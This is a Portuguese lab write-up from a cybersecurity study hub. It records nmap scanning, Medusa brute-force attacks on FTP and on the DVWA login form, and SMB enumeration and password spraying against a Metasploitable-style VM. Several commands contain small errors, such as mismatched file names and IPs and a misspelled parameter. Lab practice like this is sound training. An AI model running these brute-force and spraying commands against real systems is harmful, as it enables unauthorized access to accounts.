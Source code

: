 Hub de estudos em cybersegurança


--------------------------------------------------CRIAR VMS-------------------------------------------------------------

Iniciei o processo a construcao de 2 maquinas virtuais.
A primeira maquina virtual com o kali linux e a segunda com uma maquina para testes internos, chamada de MetaEx (baseado no metasploited 2)
Após breve configuração, executei um ping para verificar se as 2 maquinas estavam na mesma rede.

No Kali
ping -c 3 192.168.16.101 (ip da vm meta)
Me retornou que sim, estamos em sintonia

Proxima fase é descobrir quais portas estao abertas, com isso vamos utilizar o comando nmap:
nmap -sV -p 21,22,80,445,139 192.168.16.101

Esse comando vai escanear as portas
Com esse comando, recebemos a informação de que a porta 21/tvp esta aberta e rodando a versao 2.3.4, a porta 80 e as portas 139 e 445 do smd tbm estao abertas.

Proximo passo foi conectar no ftp usando o comando:
ftp 192.168.56.101, com isso conseguimos conectar mas ainda nao sabemos o user e a senha.

--------------------------------------------------ACESSO FTP--------------------------------------------------------------------
Entao para executar um acesso com bruteforcem criei um arquivo txt de usuarios com o comando
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt

criei tbm o arquivo de senhas com o comando
echo -e "123456\nmsfadmin\nadmin\nroot" > users.txt

agora vou atacar o ftp com o comando
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6
com isso pude ver que houve sucesso com o user msfadmin e senha msfadmin

--------------------------------------------------DVWA-----------------------------------------------------------------------------
Agora vou explorar outra falha que é o preenchimento de formularios de login e senha com o DVWA

Para isso, acessei pelo navegador firefox o endereço 192.168.56.101/dvwa/login.php
Ao acessar a pagina, precisei entender como que é o processo interno e entrei na aba de desenvolvedor pelo comando F12 do teclado
Apos isso, cliquei em network e preenchi qq nome de usuario e senha

Com esse teste ja consigo ver os parametros que o site usa para o login, que sao:
username, password e Login

Para esse processo, será necessario a criação de worldlists

Para criação da lista de usuarios, criei com o comando
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt

Criei tbm o arquivo de senhas com o comando
echo -e "123456\nmsfadmin\nadmin\nroot" > users.txt

Como ja criei anteriormente, ja vou utilizar eles no proximo ataque de bruteforce com o medusa

medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \
-m PAGE:'dvwa/login.php' \
-m FORM:'usernamne=^USER^&password=PASS^&Login=Login' \
-m 'FAIL=Login failed' -t 6

Com isso encotrei a credencial de login user e senha password, dando acesso ao site

--------------------------------------------------ENUMERACAO SPRAY-------------------------------------------------------------------
Nessa fase vou fazer um ataque em um serviço smb (arquivos e pastas, por exemplo), usando password spraying

Usei o seguinte comando
enum4linux -a 192.168.56.101 | tee enum4_output.txt (O tee serve para gravar o conteudo em um arquivo)

Apos rodar o comando, acessei os dados com o comando
less enum4_output.txt

Nesse arquivo, pude notar os nomes de usuarios reais e com eles que farei o ataque

Para criação da lista de usuarios, criei com o comando
echo -e "user\nmsfadmin\services" > smb_users.txt

Criei tbm o arquivo de senhas com o comando
echo -e "password\n123456\nWelcome123\nmsfadmin" > senhas_spray.txt

Agora com as listas criadas, executei o seguinte comando
medusa -h 192.168.56.101 -U smb_users.txt -P senhas_spray.txt -M smbbt -t 2 -T 50

Encontrei o user msfadmin com senha msfadmin e esse usuario tem privilegios de administrador

Para testar, usei o comando
smbclient -L //192.168.56.101 -U msfadmin
Abriu um pedido de senha e como vi anteriormente a usei a senha msfadmin para concluir o login

